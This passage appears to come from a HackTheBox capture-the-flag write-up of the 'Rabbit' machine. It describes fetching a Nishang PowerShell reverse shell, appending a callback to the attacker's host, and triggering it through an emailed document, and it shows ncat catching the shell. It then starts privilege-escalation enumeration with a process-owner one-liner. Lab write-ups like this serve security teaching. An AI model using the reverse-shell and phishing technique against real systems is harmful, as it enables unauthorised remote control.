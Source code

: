 In this case, I’ll grab a [Nishang reverse
shell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-
PowerShellTcp.ps1), add a line to the end to call invoke the function back to
my host, and save it as `rev.ps1` in the directory my webserver is serving.
I’ll send the email just like above, and after many minutes, it connects and
returns a shell:

    
    
    oxdf@hacky$ rlwrap -cAr ncat -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.71.
    Ncat: Connection from 10.10.10.71:22338.
    Windows PowerShell running as user Raziel on RABBIT
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.
    
    PS C:\Program Files (x86)\OpenOffice 4\program>
    

## Shell as SYSTEM

### Enumeration

#### Homedirs

There’s nothing else in raziel’s home directory, and there’s no other
interesting users on the box:

    
    
    PS C:\users> ls
    
        Directory: C:\users
    
    Mode                LastWriteTime         Length Name                          
    ----                -------------         ------ ----                          
    d-----       11/13/2017   8:22 PM                Administrator                 
    d-----       10/24/2017   1:38 PM                Classic .NET AppPool          
    d-r---        7/14/2009  12:57 AM                Public                        
    d-----       10/29/2017  11:12 PM                Raziel  
    

#### Processes

Looking at the running processes, [this blog
post](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)
has a nice one-liner for looking at who is running each process. “ _This one
liner returns the process owner without admin rights, if something is blank
under owner it’s probably running as SYSTEM, NETWORK SERVICE, or LOCAL
SERVICE._ ”

    
    
    PS C:\> Get-WmiObject -Query "Select * from Win32_Process" | where {$_.Name -notlike "svchost*"} | Select Name, Handle, @{Label="Owner";Expression={$_.GetOwner().User}} | ft -AutoSize
    